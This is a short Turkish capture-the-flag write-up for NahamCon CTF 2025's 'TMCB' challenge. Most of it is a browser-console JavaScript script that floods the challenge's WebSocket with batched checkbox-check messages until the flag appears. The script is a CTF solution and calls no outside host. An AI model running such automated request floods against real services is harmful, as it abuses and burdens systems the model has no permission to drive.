



## NahamCon CTF 2025 -TMCB Writeup

## Soru:


## Çözüm:
Soruyu başlattığımda gelen bağıntıya gittim ve gerçekten de karşıma 2 milyon kutucuk çıktı...



Tahminimce bu 2 milyon kutuyu işaretlediğimde flag çıkacaktı. Bunun için tarayıcı konsolunda aşağıdaki kodu çalıştırdım. Bu kod 500 ms de bir 50.000 kutucuk işaretleyecekti.

```JavaSCript
(async () => {
    const TOTAL = 2_000_000;
    const BATCH_SIZE = 50_000; // Daha küçük batch
    const DELAY_MS = 500; // Daha uzun bekleme

    const ws = new WebSocket("ws://" + location.host + "/ws");

    ws.onopen = async () => {
        console.log("✅ WebSocket bağlantısı kuruldu, kutucuklar gönderiliyor...");
        for (let i = 0; i < TOTAL; i += BATCH_SIZE) {
            const batch = Array.from({ length: BATCH_SIZE }, (_, j) => i + j);
            ws.send(JSON.stringify({
                action: "check",
                numbers: batch
            }));
            console.log(`📦 Gönderilen batch: ${i} - ${Math.min(i + BATCH_SIZE - 1, TOTAL - 1)}`);
            await new Promise(r => setTimeout(r, DELAY_MS));
        }
        console.log("🎯 Tüm kutucuklar gönderildi. Flag bekleniyor...");
    };

    ws.onmessage = function(event) {
        const data = JSON.parse(event.data);
        if (data.checked) {
            try {
                const decoded = atob(data.checked);
                const compressed = new Uint8Array(decoded.length);
                for (let i = 0; i < decoded.length; i++) {
                    compressed[i] = decoded.charCodeAt(i);
                }
                const decompressed = pako.inflate(compressed, { to: 'string' });
                const checkboxList = JSON.parse(decompressed);

                const checkedCount = checkboxList.length;
                document.getElementById("checked-count").textContent = checkedCount.toLocaleString();

                if (checkedCount === TOTAL && window.SERVER_FLAG && window.SERVER_FLAG !== "None") {
                    document.getElementById("flag").textContent = window.SERVER_FLAG;
                    document.getElementById("flag-container").style.display = "block";

                    if (typeof confetti === "function") {
                        confetti({ particleCount: 100, spread: 70, origin: { y: 0.6 } });
                    }

                    console.log("🚩 FLAG:", window.SERVER_FLAG);
                }
            } catch (err) {
                console.error("❌ Veri işlenemedi:", err);
            }
        }
    };

    ws.onclose = () => {
        console.warn("🔌 WebSocket bağlantısı kapandı.");
    };
})();
```

Vee BİNGO!!
### FLAG!🦊



